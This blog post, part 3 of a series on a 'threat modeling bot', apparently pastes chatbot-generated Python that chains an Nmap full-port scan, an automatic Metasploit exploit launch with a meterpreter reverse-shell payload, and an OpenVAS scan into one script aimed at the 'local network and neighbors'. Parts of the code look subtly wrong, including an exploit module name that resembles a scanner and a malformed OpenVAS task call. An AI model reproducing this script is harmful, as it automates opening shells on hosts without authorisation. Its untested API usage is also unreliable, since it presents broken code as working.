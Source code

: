 ```yaml
---
title: "An advanced threat modeling bot (ThreatSentry) - p3"
author: "c4r4nch0"
date: "2023-06-15"
draft: false
searchHidden: false
tags: ["threat modeling", "infosec", "coding"]
ShowToc: false
ShowBreadCrumbs: false
# cover:
#     image: "https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcSQud1wlz3Fl6brRiyQMKkg8XMhI2BE9J7SazqbG4DBOcbkVorYi34k1Y6axGErJj0L9LU&usqp=CAU"
#     # can also paste direct link from external site
#     # ex. https://i.ibb.co/K0HVPBd/paper-mod-profilemode.png
#     alt: "Bug Bounty Bootcamp"
#     caption: "Bug Bounty Bootcamp"
#     relative: false # To use relative path for cover image, used in hugo Page-bundles    
---
```

# ThreatSentry - An advanced threat modeling bot (part 3)

## 3. Integration with Penetration Testing Tools

Certainly! Here's an updated version using open-source tools for integration with a Flask application:

1. Nmap for Network Scanning:

   - Nmap is an open-source network scanning tool that helps identify hosts, open ports, and services running on a network.

   - You can use the python-nmap library, which provides a Python interface for Nmap, to integrate it into your Flask application.

   - Here's an example code snippet to perform a basic network scan using Nmap:

   ```python
   import nmap

   def perform_network_scan(target_ip):
       scanner = nmap.PortScanner()
       scanner.scan(target_ip, arguments='-p-')  # Scan all ports

       open_ports = []
       for host in scanner.all_hosts():
           for proto in scanner[host].all_protocols():
               for port in scanner[host][proto]:
                   if scanner[host][proto][port]['state'] == 'open':
                       open_ports.append(port)

       return open_ports
   ```

2. Metasploit Framework for Exploitation:

   - Metasploit Framework is an open-source penetration testing framework that provides a collection of exploit modules.

   - You can utilize the Metasploit Framework's msfrpc library to integrate it with your Flask application.

   - Here's an example code snippet to demonstrate executing a Metasploit module using the msfrpc library:

   ```python
   from msfrpc import MsfRpcClient

   def exploit_target(target_ip, target_port):
       client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
       exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

       exploit_module['RHOSTS'] = target_ip
       exploit_module['RPORT'] = target_port

       session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

       return session
   ```

3. OpenVAS for Vulnerability Scanning:

   - OpenVAS is an open-source vulnerability scanning tool that can identify security weaknesses in target systems.

   - You can use the python-gvm library, which provides a Python interface for OpenVAS/GVM, to integrate it into your Flask application.

   - Here's an example code snippet to initiate a vulnerability scan using OpenVAS:

   ```python
   from gvm.connections import TLSConnection
   from gvm.protocols.gmp import Gmp
   from gvm.transforms import EtreeTransform

   def initiate_vulnerability_scan(target_ip):
       connection = TLSConnection(hostname='openvas_server', port=9390)
       transform = EtreeTransform()

       with Gmp(connection, transform=transform) as gmp:
           gmp.authenticate('username', 'password')
           scan_id = gmp.create_task(target=target_ip)

           # Start the scan
           gmp.start_task(scan_id)

           return scan_id
   ```

Please note that these code snippets are simplified examples, and you would need to install the respective libraries (`python-nmap`, `msfrpc`, `python-gvm`) to use them in your Flask application. Additionally, ensure you have the necessary credentials and proper access to use these open-source tools within your application.

Now, for a practical example, lets do a script un python for testing local network and neighbors:

  ```python
    import nmap
    from msfrpc import MsfRpcClient
    from gvm.connections import TLSConnection
    from gvm.protocols.gmp import Gmp
    from gvm.transforms import EtreeTransform

    # Perform network scan using Nmap
    def perform_network_scan(target_ip):
        scanner = nmap.PortScanner()
        scanner.scan(target_ip, arguments='-p-')  # Scan all ports

        open_ports = []
        for host in scanner.all_hosts():
            for proto in scanner[host].all_protocols():
                for port in scanner[host][proto]:
                    if scanner[host][proto][port]['state'] == 'open':
                        open_ports.append(port)

        return open_ports

    # Exploit target using Metasploit Framework
    def exploit_target(target_ip, target_port):
        client = MsfRpcClient('YOUR_METASPLOIT_API_TOKEN')
        exploit_module = client.modules.use('exploit', 'exploit/multi/http/webdav_internal_ip')

        exploit_module['RHOSTS'] = target_ip
        exploit_module['RPORT'] = target_port

        session = exploit_module.execute(payload='python/meterpreter/reverse_tcp')

        return session

    # Initiate vulnerability scan using OpenVAS
    def initiate_vulnerability_scan(target_ip):
        connection = TLSConnection(hostname='openvas_server', port=9390)
        transform = EtreeTransform()

        with Gmp(connection, transform=transform) as gmp:
            gmp.authenticate('username', 'password')
            scan_id = gmp.create_task(target=target_ip)

            # Start the scan
            gmp.start_task(scan_id)

            return scan_id

    # Execute the scan, detect, and vulnerability check
    def execute_network_security_check(target_ip):
        # Network scan using Nmap
        open_ports = perform_network_scan(target_ip)

        # Exploit target using Metasploit Framework
        session = exploit_target(target_ip, 80)  # Adjust the target port as needed

        # Initiate vulnerability scan using OpenVAS
        scan_id = initiate_vulnerability_scan(target_ip)

        # Save the outputs to separate TXT files
        with open('network_scan_output.txt', 'w') as f:
            f.write('Open Ports:\n')
            for port in open_ports:
                f.write(f'{port}\n')

        with open('exploit_output.txt', 'w') as f:
            f.write('Exploit Session:\n')
            f.write(f'{session}\n')

        with open('vulnerability_scan_output.txt', 'w') as f:
            f.write('Scan ID:\n')
            f.write(f'{scan_id}\n')

        print('Network security check completed. Results saved to TXT files.')

    # Execute the script with your localhost IP as the target
    execute_network_security_check('localhost')
  ```
